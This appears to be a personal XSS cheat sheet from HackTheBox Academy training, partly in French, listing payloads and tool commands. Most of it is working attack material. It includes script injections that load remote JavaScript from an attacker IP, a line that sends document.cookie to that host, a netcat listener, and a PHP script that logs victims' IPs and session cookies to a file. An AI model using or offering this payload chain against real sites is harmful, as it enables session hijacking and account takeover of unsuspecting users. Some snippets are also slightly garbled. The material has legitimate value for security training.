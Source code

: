 #XSS #web 

## Commands

| Code                                                                                          | Description                       |
| --------------------------------------------------------------------------------------------- | --------------------------------- |
| **XSS Payloads**                                                                              |                                   |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |
| **Commands**                                                                                  |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |
| `sudo php -S 0.0.0.0:80 `                                                                     | Start `PHP` server                |


### Utilisation d'un payload XSS avec un script Php pour récuperer les cookies d'une sessions
Utilisation d'un **payload XSS** appelant un fichier **js** avec lui même une requête sur les cookies de la sessions et appel d'un fichier **php** pour récuperer au clair les informations dans un txt.

#### Payload avec connexion à notre propre serveur php
```bash
"><script src=http://10.10.16.9/script.js></script>
```

#### deuxième payload ( requête pour récupération des cookies )
```javascript

?>new Image().src='http://10.10.16.9/index.php?c='+document.cookie

```

#### PHP script
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```

#### Utilisation des entrées directe :
- Code Javascript<script></script>
- Code de style CSS<style></style>
- Champs de balise/attribut<div name='INPUT'></div>
- Commentaires HTML<!-- -->